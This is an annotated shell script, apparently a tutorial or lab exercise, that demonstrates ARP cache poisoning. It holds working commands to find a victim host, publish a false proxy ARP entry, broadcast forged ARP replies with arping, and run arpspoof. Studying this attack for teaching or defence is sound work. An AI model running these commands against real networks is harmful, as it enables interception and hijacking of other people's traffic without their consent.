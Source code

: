 ```sh
#ip address add ${VICTIM_IP}/24 dev $INTERFACE

# Now that we know the server's IP address, let's note its MAC address.
# If it responds to ICMP echo requests, `ping` will show us output:
ping $VICTIM_IP

# If it doesn't, we can do an ARP scan instead. There are many tools, but I
# like using `nmap`; its `-sn` option will do only a host discovery scan.
sudo nmap -sn -PR $VICTIM_IP # Note `-PR` is default, so can be omitted.

# An alternative tool that provides more output is `arp-scan`.
arp-scan $VICTIM_IP

# We can also use the `arping` utility for a more surgical approach:
sudo arping -c 1 -i $INTERFACE $VICTIM_IP

# We should now have an entry in our local ARP table ("ARP cache"):
arp -n $VICTIM_IP
# GNU/Linux users will probably want to do this instead:
#ip neighbour show $VICTIM_IP

# To actually perform the attack (i.e., to lie about the MAC-to-IP
# mapping to the network), we can configure our attack machine to
# respond to ARP requests for the victim IP address with our own
# NIC's MAC address. This will not *necessarily* work due to the fact
# that the legitimate answer may come after our own, overriding it.
sudo arp -s $VICTIM_IP auto pub only ifscope $INTERFACE

# NOTE: This is only currently easy on true UNIX, like BSD. Attempts
# to publish a Proxy ARP entry on GNU/Linux requires a kernel tunable
# (`net.ipv4.conf.${INTERFACE}.proxy_arp`) and proper routing tables.
# If you really want to attempt this as a GNU/Linux user, you will
# ulimately want to invoke a command such as the following after setting
# up your IP routing tables appropriately. ("Appropriately" means what?)
# Some guidance at http://linux-ip.net/html/tools-ip-neighbor.html
#sudo arp -Ds $VICTIM_IP $INTERFACE pub

# To improve the liklihood of successfully poisoning the target's ARP cache,
# we want to continuously broadcast the wrong information, repeatedly.
# The "wrong information" means an ARP packet whose payload contains:
#
# * The `Sender MAC address` field set to the MAC address of the attacker.
# * The `Sender IP address` field set to the IP address of the target.
# * The `Target MAC address` field set to the broadcast MAC address.
# * The `Target IP address` field set to 0.0.0.0.
#
# This should be sent as an ARP reply (opcode `0x02`).
#
# What this does is tell devices that the IP address of the target is
# associated with the MAC address of the attacker; hence, ARP spoofing.

# One way we could construct such an ARP packet manually is like so:
sudo arping -i $INTERFACE -U -P -S $VICTIM_IP 0.0.0.0

# More simply, we can just use the `arpspoof` tool:
arpspoof $VICTIM_IP
```
